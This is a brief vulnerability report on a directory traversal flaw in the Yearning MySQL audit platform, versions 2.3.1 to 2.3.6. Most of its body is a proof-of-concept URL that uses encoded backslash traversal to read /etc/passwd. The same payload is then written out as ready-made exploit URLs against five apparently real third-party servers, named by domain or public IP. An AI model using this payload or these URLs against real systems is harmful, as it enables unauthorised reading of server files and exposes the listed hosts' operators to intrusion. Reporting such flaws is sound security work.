




# yearning has Directory traversal vulnerability

## Overview

Manufacturer's website information：http://yearning.io/

## 1. Affected version

version: v2.3.1 Interstellar GA 

version: v 2.3.2 Interstellar GA 

version: v 2.3.4 Neptune 

version: v 2.3.5 Neptune

version: v 2.3.6 Neptune

## 2.Vulnerability details

POC

```
/front//%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
```


version: v2.3.1 Interstellar GA 

https://mysql.zb-sx.cn/#/login


https://mysql.zb-sx.cn/front//%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd


version: v 2.3.2 Interstellar GA 

http://18.162.92.125/#/login


http://18.162.92.125/front//%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd



version: v 2.3.4 Neptune


http://47.93.26.226:9000/front//%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd



version: v 2.3.5 Neptune

http://39.100.157.58:8001/#/login


http://39.100.157.58:8001/front//%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd



version: v 2.3.6 Neptune

http://182.92.66.166:8086/#/login


http://182.92.66.166:8086/front//%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd




## Vulnerability impact

Yearning is a MySQL audit platform. There is a directory traversal vulnerability in Yearning, which can be used by attackers to obtain sensitive information.

